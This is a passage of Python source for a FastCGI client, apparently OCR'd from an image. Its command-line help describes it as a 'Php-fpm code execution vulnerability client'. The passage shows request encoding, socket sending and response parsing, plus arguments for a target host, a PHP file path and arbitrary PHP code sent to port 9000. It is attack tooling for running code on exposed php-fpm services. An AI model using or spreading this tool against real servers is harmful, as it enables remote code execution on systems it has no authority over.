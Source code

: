 ```
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()
```